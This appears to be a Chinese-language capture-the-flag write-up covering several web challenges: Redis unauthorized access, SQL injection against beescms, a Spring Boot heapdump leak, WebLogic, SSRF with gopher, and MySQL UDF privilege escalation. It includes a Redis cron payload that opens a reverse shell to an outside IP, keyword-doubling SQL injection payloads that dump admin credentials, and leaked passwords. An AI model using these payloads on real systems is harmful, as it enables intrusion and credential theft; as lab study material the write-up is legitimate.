 ## web7

6379端口，明显的redis未授权，尝试用工具直接打

![image-20240223192348983](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240223192348983.png)

set backup1 "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/116.62.192.44/8888 0>&1\n\n"

## web5

用户名的sql注入，采用报错注入

![image-20240223205523410](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240223205523410.png)

绕过之后查表名

```
admin'+a+and+nd+extractvalue(1,concat(0x7e,(seselectlect+group_concat(table_name)+fr+from+om+information_schema.tables+wh+where+ere+table_schema+like+'beescms'),0x7e))#

admin'+a+and+nd+extractvalue(1,concat(0x7e,(seselectlect+group_concat(column_name)+fr+from+om+information_schema.columns+wh+where+ere+table_name+like+'bees_admin'),0x7e))#

//id,admin_name,admin_password,ad

admin'+a+and+nd+extractvalue(1,concat(0x7e,(seselectlect+group_concat(id,0x7e,admin_name,0x7e,admin_password)+fr+from+om+beescms.bees_admin),0x7e))#

//~9~meetsec~2446d54c2e68d221db9cf
==>login123
```

传个码，连接拿flag

//meetsec1{476e2dceb225678cd466fc3cd2b4c59c}

## web3

直接目录扫一下第一台主机，看环境变量

![image-20240223215303743](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240223215303743.png)

//http://146.56.229.102:22883/actuator/env

//meetsec1{e20cdd96b8985a3557e5720726bb09a8}

springboot heapdump泄露加明文密码获取

先把文件下载下来

![image-20240223225558687](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240223225558687.png)

找关键信息

```
>> spring.security.user.password -> 8kge78k#y%
>> spring.datasource.password -> null
 spring.security.user.name -> actuator
  spring.datasource.username -> null
  org.springframework.boot.context.properties.source.ConfigurationPropertyName@0x6ce668580 -> MeetSec@2nd!2022
Provider.id name -> SunRsaSign

```

换个工具

![image-20240223233503346](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240223233503346.png)

看的更清楚

//meetsec2{9edbd4b03b5f86a9abe079bc63ea847b}

## web2

7001的weblogic,直接拿工具扫一下

![image-20240224123500701](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240224123500701.png)

//meetsec1{3e942fd37767def3a9f68cf5ee6ebee5}

![image-20240224123818458](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240224123818458.png)

扫内网

![image-20240224131334944](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240224131334944.png)

20.12是mysql

详细扫一下,开了3306,升shell加路由扫一下

//{AES}ZhArsOkXPBA9AvAwRxNxpK4G0WlHlpNFBZVsu+PDlYU=

//Meetsec#1024

解密得到了mysql的密码

代理拿flag2

//meetsec2{9fffac75c84bfc66fef4998f3574c6c8}

udf提权拿flag3

//meetsec3{2e947aef43be6dc428a9c626ba7fb824}

![image-20240224151200623](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240224151200623.png)

试着拿shell回来，测试了一下，目标应该是不出网，在第一台机器上用python起服务，另一边用curl下载，似乎是失败了一直连接不上

## web1

![image-20240225142914305](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240225142914305.png)

ssrf利用file协议

![image-20240225145636765](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240225145636765.png)

![image-20240225150257122](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240225150257122.png)

//172.18.240.5

172.18.240.105:3306初步判断是这个ip

好像没有其他ip开放了80端口，怀疑时mysql未授权，用gopher协议打一下

![image-20240225192432240](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240225192432240.png)

好像得到了结果，但是乱码

成都大运会hvv

当时通过sql慢日志写成功写入shell,路径是试出来的

通过烂土豆进行提权

